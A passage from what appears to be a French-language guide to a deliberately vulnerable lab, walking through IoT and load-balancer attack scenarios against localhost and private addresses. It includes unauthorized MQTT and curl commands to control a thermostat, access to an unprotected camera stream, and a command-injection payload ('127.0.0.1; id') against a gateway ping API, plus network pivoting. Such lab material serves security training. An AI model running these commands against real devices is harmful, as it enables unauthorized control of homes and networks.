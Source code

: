 2. **Publication de commandes MQTT non autorisées**
   - Publiez des commandes pour contrôler les appareils:
   ```bash
   mosquitto_pub -h 192.168.2.2 -t "home/thermostat/command" -m '{"action":"set", "temperature":35}'
   ```

### Phase 3: Exploitation des API d'appareils

1. **Manipulation du thermostat**
   - Accédez à l'interface web: http://localhost:8086
   - Utilisez curl pour manipuler l'appareil:
   ```bash
   curl -X POST http://localhost:8086/api/target -H "Content-Type: application/json" -d '{"temperature": 40.0}'
   ```

2. **Accès à la caméra IoT**
   - Accédez à la caméra: http://localhost:8087
   - Essayez de trouver le flux vidéo non protégé: http://localhost:8087/stream

### Phase 4: Compromission de la passerelle IoT

1. **Exploitation de l'API de la passerelle**
   - Accédez à la passerelle depuis le réseau IoT ou LAN
   - Essayez l'injection de commande via l'API ping:
   ```bash
   curl -X POST http://192.168.1.50/api/ping -d '{"ip":"127.0.0.1; id"}'
   ```

2. **Pivotement entre réseaux**
   - Utilisez la passerelle compromise pour pivoter entre le réseau IoT et le réseau corporate

## Scénario 3: Attaques d'infrastructure (Load Balancing)

**Objectif**: Exploiter les vulnérabilités dans une infrastructure d'équilibrage de charge.

**Modules requis**: Core + Load Balancing

**Démarrage**:
```bash
./start-lb-scenario.sh
```

### Phase 1: Reconnaissance de l'infrastructure

1. **Détection de l'équilibreur de charge**
   - Analyser les entêtes HTTP:
   ```bash
   curl -I http://localhost
   ```

2. **Accès à l'interface d'administration**
   - Ouvrez http://localhost:8404/stats
   - Observez les backends configurés et leur état actuel
